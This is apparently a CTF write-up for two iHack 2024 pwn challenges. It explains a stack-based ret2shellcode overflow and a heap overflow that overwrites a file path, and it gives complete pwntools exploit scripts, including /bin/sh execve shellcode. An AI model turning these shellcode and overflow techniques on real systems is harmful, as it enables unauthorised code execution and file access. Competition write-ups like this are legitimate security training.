 ## Note

Check for ASLR next time 

```
cat /proc/sys/kernel/randomize_va_space
```

## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
tar = leak - 0x10

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

sla(b"Enter]: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/4856326e-f2e0-48ee-ae31-4c1bf492e4e5)

## Pwn/EtcPasswd Reader

### Initial Analysis

![image](https://github.com/user-attachments/assets/4f5cc698-593f-470a-96aa-8cf7132132a2)

Opening the binary in Ghidra, we can see that there is a buffer overflow with the gets() function inside the heap memory region due to the use of `malloc(0x40)`. Then, there is a second chunk allocated which contains the path `/etc/passwd`. So the goal is simple, bof enough until we reach the 2nd chunk and overwrite with the path to the flag. 

```
└─$ cat Dockerfile 
FROM ubuntu:22.04
ENV LC_CTYPE C.UTF-8
ENV DEBIAN_FRONTEND=noninteractive

<-- setup snippet -->

# flag location: /flag/secretflag/flag

CMD ["/start.sh"]

EXPOSE 9997
```

In the dockerfile, we can find the path to the flag. Before we go into exploitation, we need a little understanding about a [heap structure](https://sourceware.org/glibc/wiki/MallocInternals) first.

![image](https://github.com/user-attachments/assets/f4f8bc26-3782-4c63-8e3e-ce7cd50f149a)

The image above shows the structure of a heap chunk when we allocate it. The payload area is the location where we can store data. Above the payload, there is some metadata about the heap chunk. For example, the size of the chunk and also some flags (AMP) needed for internal functions. We can verify this by taking a look in gdb.

![image](https://github.com/user-attachments/assets/0c65f0a9-c44b-40ee-99ea-e92f6001e086)

We can see both of our chunks here. 0x51 is the size of the chunk because we malloc 0x40, another 0x10 comes from the header metadata, and 0x1 is the flag PREV_IN_USE. After the size, we have the user input `aaaaaaaa`. Below this chunk, we have the chunk for the file path `/etc/passwd`. Now we know, we need to write 0x50 bytes before we start overwriting the file path. There's one more thing left to do, which is to bypass the strcmp(). We can easily do that by sending `b"P$s5w0rd_53CurE_A8S8A9DF7239FSD0\x00"` followed by more user input. This is possible because gets() only stops taking user input after it receives `\n`, not `\x00`. This will bypass strcmp() as it only compares null terminated strings.

### Exploit Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./etcpasswd-reader')
libc = exe.libc

host = "etc-passwd-reader.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

secret = b"P$s5w0rd_53CurE_A8S8A9DF7239FSD0\x00"

payload = secret
payload += b"A" * (80-len(secret))
payload += b"/flag/secretflag/flag"

sla(b"details: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/13671dba-338d-4dc9-ae19-ceba88593c7b)
